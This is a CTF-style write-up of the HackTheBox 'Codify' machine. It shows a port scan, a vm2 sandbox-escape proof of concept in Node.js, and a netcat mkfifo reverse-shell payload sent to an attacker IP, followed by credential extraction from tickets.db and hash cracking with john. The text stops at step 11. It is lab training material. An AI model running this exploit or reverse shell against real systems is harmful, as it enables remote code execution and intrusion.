 # Codify
> Write-up author: jon-brandy | Lesson learned: vm2 exploitations, 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ed060495-9bbf-4521-8586-e52f9f08aa52)

> PORT SCANNNING:

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.239 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-18 00:36 PST
Warning: 10.10.11.239 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.239
Host is up (0.033s latency).
Not shown: 53951 closed tcp ports (conn-refused), 11581 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 275.72 seconds
```

1. Based from the nmap results, we can identified that the machine runs a web application, opens ssh login and using node.js framework for the webapp.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/95dde7ef-9cee-480e-b93f-0a705d53d68d)


2. Reading the **About Us** page, shows us the door to exploit this web app, the `vm2 (virtual machine 2)` vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/31abcec5-c414-408a-b0eb-170397adf10b)


3. Searching on the internet about vm2 vulns, shall resulting to this:

```
VM2 --> Is a library that provides a secure and sandboxed environment for executing JavaScript code. Primarily used in server side
environments such as Node-JS.

https://www.uptycs.com/blog/exploitable-vm2-vulnerabilities (the newest one --> 2023).
```

4. Also found a github POC.

```
https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d9e4426-3a8a-4331-8efd-6e217c3944e9)


```txt
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```


5. To test the POC, we can try by sending --> `ls ./`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/edbefc30-e90b-43de-9bb7-1f2c1cd21182)


6. Great it executes our bash command, hence let's put our reverse shell payload there.

> succeed payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f
```

> RESULT

```txt
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f');
}
`

console.log(vm.run(code));
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6bfefadb-8436-41fa-9b1d-f3f59fd34bd2)


7. Notice that there is a user named **joshua** and we can't cd there.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9c1ec6bd-8f41-47e6-b0ab-00071936ae8a)


8. Now we need to enumerate dirs and files, our objective should be a config file or .db file.
9. Long story short, found tickets.db at --> `/var/www/contacts`.

> FOUND JOSHUA CRED

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/01d4894f-6888-49be-bc35-a6f23e924dd4)


10. Let's crack the hash using rockyou.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6da0163-21cd-47dd-8124-6e2c68ab4850)

#### NOTES: If you want to list all available formats, simply run --> john --list-formats

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/126301b7-5671-40f1-a3c0-6db8763d1213)


11. 
